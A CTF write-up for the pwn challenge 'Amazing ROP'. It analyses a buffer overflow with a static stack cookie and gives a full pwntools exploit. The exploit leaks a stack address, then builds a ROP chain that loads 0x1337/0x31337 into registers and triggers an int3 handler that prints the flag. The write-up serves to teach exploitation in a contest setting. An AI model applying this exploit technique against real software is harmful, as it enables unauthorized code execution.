



# Amazing ROP


**Category**: Pwn

**The task**:



# Analysis

We were given a binary and a C file with partial source code:

```c
int main(int argc, char **argv) {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```

The source code of ``vuln()`` was provided and has a [buffer overflow](./task_files/bof.c#L53) with a [static stack "cookie"](./task_files/bof.c#L59), but ``safeguard()``'s source was not provided.

When reversing the binary, it looks like the ``safeguard`` function is calling ``handle_cmds``. 

The ``handle_cmds`` function has a ``call system@plt`` gadget but when trying to jump there directly - we'll get a ``SIGSYS``(probably because the binary has some _ptrace_ monitoring). In the beginning I thought the task was to bypass the _ptrace_ stuff. But after the CTF ended I realized I missed a very important hint that the challenge author left in the source code.

**The correct solution**: ``handle_cmds`` is "intercepting" the ``int3`` syscall and expects special parameters. 

What we needed to do is to execute the ``int3`` instruction with ``0x1337`` and ``0x31337`` parameters, this is why the challenge author added a comment in ``bof.c``:

```c
// This is what you need to do to get the first flag
// void print_flag() {
//   asm volatile("mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3" ::: "eax");
// }
```

The ``int3`` instruction triggers the ``handle_cmds`` function which checks whether the parameters are correct (``0x1337`` and ``0x31337``):



If they are correct, it will execute ``/bin/cat /app/flag.txt``.

# Exploitation

To exploit this bug: shift the stack accordingly & create a ROP chain that will:
* Populate the registers (just like in the hint the challenge author left us in ``bof.c``)
* Jump to another gadget which executed ``int3``



Exploit:

```py
from pwn import *

def extract_stackvars(line1):
    tmp = line1.split('|')[1][1:].split(' ')
    var1 = int('0x' + ''.join(tmp[0:4][::-1]), 16)
    var2 = int('0x' + ''.join(tmp[4:8][::-1]), 16)

    return (var1, var2)


# p = process('./bof.bin')
p = remote('maze.chal.perfect.blue', 1)

p.sendlineafter('(Y/n)', 'n')
stack_snapshot = p.recvuntil('Input some text:').decode()
stack_snapshot = stack_snapshot.split('\n')
relative = extract_stackvars(stack_snapshot[9])[0]

base        = relative - 0x1599
pop_gadget  = base + 0x1396
int3_gadget = base + 0x13ad


payload  = b'A' * 0x30
payload += p32(0x67616c66)  # stack "cookie"
payload += b'C' * 12
payload += p32(pop_gadget)  # pop esi; pop edi; pop ebp
payload += p32(0x1337)      # populating esi
payload += p32(0x31337)     # populating edi
payload += p32(0x1)
payload += p32(int3_gadget) # triggering handle_cmds w/ correct parameters
payload += p32(0x1)         # populating eax

p.sendline(payload)
p.interactive()
```

Output:


